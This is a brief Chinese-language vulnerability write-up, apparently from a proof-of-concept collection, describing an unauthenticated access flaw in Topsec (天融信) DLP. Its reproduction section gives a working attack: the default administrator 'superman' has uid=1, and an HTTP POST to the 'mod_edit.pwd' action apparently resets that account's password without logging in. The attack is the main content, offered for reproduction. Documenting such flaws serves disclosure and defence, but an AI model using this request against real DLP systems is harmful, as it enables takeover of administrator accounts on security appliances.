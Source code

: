 # 天融信 DLP 未授权访问漏洞

## 漏洞描述

天融信DLP存在未授权访问漏洞

## 漏洞影响

```
天融信DLP
```

## 漏洞复现

POC为

```plain
默认用户superman的uid=1
POST /?module-auth_user&action=mod_edit.pwd HTTP/1.1
```

